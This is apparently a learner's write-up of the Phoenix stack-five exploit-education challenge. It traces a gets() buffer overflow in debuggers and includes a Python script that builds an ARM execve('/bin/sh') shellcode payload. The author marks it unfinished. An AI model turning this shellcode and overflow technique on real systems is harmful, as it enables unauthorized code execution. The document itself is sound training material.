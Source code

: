 # Phoenix Stack5
### Result
< not completed, as yet >
### Overview
This challenge started with a question:

> As opposed to executing an existing function in the binary, this time we’ll be introducing the concept of “shell code”, and being able to execute our own code.

You had to overwrite the `return address` and jump to self-written / downloaded `shellcode`.

Overwriting the `return address` and running `shellcode` was simpler on `stack5.c`, compared to a modern compiled C program.  It was not protected with `ASLR`, `Stack Guards` and it had an `executable stack`.
### Great references
This challenge was a big jump in effort and time, compared to Stack4. Two great resources helped me get over issues:

https://www.coengoedegebure.com/buffer-overflow-attacks-explained/
https://www.lucas-bader.com/ctf/2019/02/02/stack5

The `Buffer Overflow` was possible due to the code using the vulnerable C API `gets()`.

##### Run the code
```
$ ./stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
AAA
```  
##### Symbols
```
// cut down for brevity
[0x000103b4]> is~FUNC
072 0x000004e8 0x000104e8 GLOBAL   FUNC   36 start_level
079 0x0000050c 0x0001050c GLOBAL   FUNC   52 main
002 0x00000378 0x00010378 GLOBAL   FUNC   16 imp.gets
003 0x00000384 0x00010384 GLOBAL   FUNC   16 imp.puts
```
##### Calculate buffer to overflow
```
/ (fcn) sym.start_level 36
|           0x000104f0      80d04de2       sub sp, sp, 0x80   <-- space for local var
|           0x000104f4      84304be2       sub r3, fp, 0x84   <-- same as above
|           0x000104f8      0300a0e1       mov r0, r3                  ; char *s
|           0x000104fc      9dffffeb       bl sym.imp.gets             ; char *gets(char *s)
```
Bytes allocated setting up the `start_level Stack` suggested a `128 buffer` and a `4 byte pointer`.  I guessed the `4 byte pointer` was the address of the buffer, based on what Radare2 showed.

### Debugger Analysis
##### Verify the Buffer size
```
gef> b *start_level + 24      <-- // breakpoint on first instruction after gets()

gef> disas start_level
Dump of assembler code for function start_level:
   0x000104e8 <+0>:	push	{r11, lr}
   0x000104ec <+4>:	add	r11, sp, #4
   0x000104f0 <+8>:	sub	sp, sp, #128	; 0x80.      <-- re-affirm size of buffer
   0x000104f4 <+12>:	sub	r3, r11, #132	; 0x84
   0x000104f8 <+16>:	mov	r0, r3
   0x000104fc <+20>:	bl	0x10378 <gets@plt>
=> 0x00010500 <+24>:	nop			; (mov r0, r0)
   0x00010504 <+28>:	sub	sp, r11, #4
   0x00010508 <+32>:	pop	{r11, pc}
```
You could read the disassembled code to see the Char buffer size.
```
gef> p/u 0x80
$5 = 128
```
##### Find the Return Address in the Stack
```
gef> disas main
...
   0x00010528 <+28>:	bl	0x104e8 <start_level>
   0x0001052c <+32>:	mov	r3, #0     <-- the return address
```
Run the code:
```
gef> r < AAAA

gef> find $sp, +200,0x0001052c
0xfffefd74
1 pattern found.

gef> p/u 0xfffefd74 - 0xfffefcf0
$11 = 132

$sp  : 0xfffefcf0
$r11 : 0xfffefd74

// alternative way..

gef> p/u $fp - $sp      
$1 = 132
```
##### Overwrite the Return Address
```
gef> r <<< $(python -c 'print "A"*132 + "\x42\x42\x42\x42"')

$ cat ~/129chars | wc -c
129     <- due to a \n not being removed

$ cat ~/128chars | ./stack-five
Program received signal SIGSEGV, Segmentation fault.

$ cat ~/128chars | wc -c
128

cat ~/128chars | ./stack-five
Illegal instruction
```
##### Shellcode
I practiced writing my own shellcode:
https://github.com/rustymagnet3000/bits_bytes_playground/blob/master/example_28b_C_execve_shellcode.md

This was a learning exercise to write assembly code and then re-factor the asm code to remove NULL bytes.  

Ultimately you were able to run:

```
~$ ./tiny
// spawned a new shell here
$ whoami
user
$ exit
// back in original shell
```
##### Script to construct Payload
```
#!/usr/bin/env python

import sys

location_return_addr = 132
l_nop_padding = 60
shellcode = "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x78"

if __name__ == "__main__":
    padded_shellcode = "\x90" * l_nop_padding
    padded_shellcode += shellcode
    r_nop_padding = location_return_addr - len(padded_shellcode)
    padded_shellcode += "\x90" * r_nop_padding

    if (len(padded_shellcode)) != location_return_addr:
        print("Padding error")
        exit()

    for byte in padded_shellcode:
        sys.stdout.write("\\x" + byte.encode("hex"))
    print ""
```
On my ARM-emulator using `print` did not work with encoding.  I kept hitting:

`UnicodeEncodeError: 'ascii' codec can't encode characters in position 0-59`

That is why I moved to using `byte.encode`.

##### Construct Payload
```
python payload.py > payload
```
##### The Payload
```
$ cat payload
\x90\x90\x90\......<shellcode in here. Removed for brevity>........\x90\x90\x90
```
##### Run Payload
```
cat ~/payload | ./stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
Segmentation fault
```
##### Source code
```
/*
 * phoenix/stack-five, by https://exploit.education
 *
 * Can you execve("/bin/sh", ...) ?
 *
 * What is green and goes to summer camp? A brussel scout.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```
